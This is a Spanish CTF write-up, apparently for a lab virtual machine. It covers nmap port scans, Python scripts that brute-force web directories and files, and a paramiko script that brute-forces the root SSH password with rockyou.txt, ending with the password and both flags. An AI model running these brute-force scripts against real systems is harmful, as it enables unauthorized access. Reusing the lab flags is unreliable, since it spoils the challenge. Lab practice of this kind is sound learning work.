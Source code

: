 ## Buscamos puertos tcp activos.

>sudo nmap -sS -sV -O -p- 192.168.56.102 -oN >tcp                                                                                                               
>Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:24 -05
>Nmap scan report for 192.168.56.102
>Host is up (0.00075s latency).
>Not shown: 65533 closed tcp ports (reset)
>PORT   STATE SERVICE VERSION
>22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
>80/tcp open  http    nginx
>MAC Address: 08:00:2F (Oracle VirtualBox virtual NIC)
>Device type: general purpose
>Running: Linux 4.X|5.X
>OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
>OS details: Linux 4.15 - 5.6
>Network Distance: 1 hop


## Buscamos puertos Udp activos

>sudo nmap -sUV -T4 -F --version-intensity 0 192.168.56.102 -oN >udp                                                                                  
>Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:27 -05
>Nmap scan report for 192.168.56.102
>Host is up (0.00067s latency).
>All 100 scanned ports on 192.168.56.102 are in ignored states.
>Not shown: 59 open|filtered udp ports (no-response), 41 closed udp ports (port-unreach)
>MAC Address: 08:00:E3:8F (Oracle VirtualBox virtual NIC)


Tenemos los puertos 22 y 80 activos.

## Usamos Curl...
curl -v http://192.168.56.

> Trying 192.168.56.102:80...
> Connected to 192.168.56.102 (192.168.56.102) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.56.102
> User-Agent: curl/7.86.0
> Accept: */*
> 
> Mark bundle as not supporting multiuse
>< HTTP/1.1 200 OK
>< Server: nginx
>< Date: Mon, 05 Dec 2022 20:30:15 GMT
>< Content-Type: text/html
>< Content-Length: 57
>< Last-Modified: Sun, 20 Sep 2020 16:29:39 GMT
>< Connection: keep-alive
>< ETag: "5f-39"
>< Accept-Ranges: bytes
>< 

>Dont Overthink. Really, Its simple.
>        <!-- Trust me -->

El Html nos dice poco excepto que no sobre-pensemos la solución.

## Buscamos directorios mediante fuerza bruta con Python y requests.

```python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        url = ip + string[:-1]
        if "#" in url:
            continue
        response = requests.get(url)
        if response.status_code == 200:
            print(f'[+] {url}  status-code [{response.status_code}]')
```
### Salida:
>[+] http://192.168.56.102/  status-code [200]

No encontramos ningún directorio sospechoso y procedemos a buscar archivos mediante el uso de la misma tecnica.
```python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        list = ['.html', '.txt', '.php', '.bak', '.jpeg', '.zip', '.sql'] # Extensiones que buscara.
        for item in list:
            url = ip + string[:-1] + item
            if "#" in url:
                continue
            response = requests.get(url)
            if response.status_code == 200:
                print(f'[+] {url}  status-code [{response.status_code}]')
```
### Salida:
>[+] http://192.168.56.102/index.html  status-code [200]

Solo encontramos un archivo.


Pasamos a revisar SSH tratando de conectar como 'root' usando paramiko y rockyou.txt
```python
import paramiko

server = '192.168.56.102'
username = 'root'
file = '/home/../../rockyou.txt'

with open(file, 'r') as payloads:
    for payload in payloads:
        try:
            ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            ssh.connect(server, username=username, password=payload[:-1])
            print(f'[+] {username}: {payload}')
            ssh.close()
            break
        except paramiko.ssh_exception.AuthenticationException as err:
            print(f'[-] {username}: {payload[:-1]}')
            ssh.close()
```
### Salida:
.
.
.
.
* [-] root: fernanda
* [-] root: westlife
* [-] root: blondie
* [-] root: sasuke
* [-] root: smiley
* [-] root: jackson
* [+] root: simple

## El password es 'simple' para el usuario 'root'

> * id:uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video) 
> * Flag user:HMV665sXzDS
> * Flag root:HMVtyr543FG
